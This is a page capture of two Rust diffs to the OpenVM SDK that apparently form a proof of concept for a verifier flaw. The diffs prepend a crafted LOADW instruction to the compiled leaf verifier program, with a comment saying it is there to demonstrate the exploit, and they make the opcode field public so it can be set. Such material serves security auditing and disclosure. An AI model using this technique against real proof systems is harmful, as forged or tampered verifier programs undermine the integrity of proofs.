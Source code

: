 ```diff
diff --git a/crates/sdk/src/verifier/leaf/mod.rs b/crates/sdk/src/verifier/leaf/mod.rs
index 969733ba4..532eb8129 100644
--- a/crates/sdk/src/verifier/leaf/mod.rs
+++ b/crates/sdk/src/verifier/leaf/mod.rs
@@ -14,6 +14,7 @@ use openvm_stark_sdk::{
keygen::types::MultiStarkVerifyingKey, p3_field::FieldAlgebra, p3_util::log2_strict_usize,
proof::Proof,
},
+ p3_baby_bear::BabyBear,
};
use crate::{
@@ -102,7 +103,29 @@ impl LeafVmVerifierConfig {
builder.halt();
}
- builder.compile_isa_with_options(self.compiler_options)
+ let result = builder.compile_isa_with_options(self.compiler_options);
+ // Copy the first instruction and overwrite its values to create
+ // a dummy instruction that has no effect on the rest of the program,
+ // but for which we 'll demonstrate the exploit.
+ let mut dummy_instruction = result.instructions_and_debug_infos[0].clone();
+ let instruction = &mut dummy_instruction.as_mut().unwrap().0;
+ // Opcode 256 is LOADW
+ instruction.opcode.0 = 256;
+ // Read from address 111111, write to address 111111
+ instruction.a = BabyBear::from_canonical_u32(111111);
+ instruction.b = BabyBear::from_canonical_u32(0);
+ instruction.c = BabyBear::from_canonical_u32(111111);
+ instruction.d = BabyBear::from_canonical_u32(4);
+ instruction.e = BabyBear::from_canonical_u32(4);
+ instruction.f = BabyBear::from_canonical_u32(0);
+ instruction.g = BabyBear::from_canonical_u32(0);
+ println!("Dummy instruction: {:?}", dummy_instruction);
+ Program {
+ instructions_and_debug_infos: std::iter::once(dummy_instruction)
+ .chain(result.instructions_and_debug_infos)
+ .collect(),
+ ..result
+ }
}
/// Read the public values root proof from the input stream and verify it.
```

```diff
diff --git a/crates/toolchain/instructions/src/lib.rs b/crates/toolchain/instructions/src/lib.rs
index 961882446..5858b7eea 100644
--- a/crates/toolchain/instructions/src/lib.rs
+++ b/crates/toolchain/instructions/src/lib.rs
@@ -30,7 +30,7 @@ pub trait LocalOpcode {
}
#[derive(Copy, Clone, Debug, Hash, PartialEq, Eq, derive_new::new, Serialize, Deserialize)]
-pub struct VmOpcode(usize);
+pub struct VmOpcode(pub usize);
impl VmOpcode {
/// Returns the corresponding `local_opcode_idx`
```
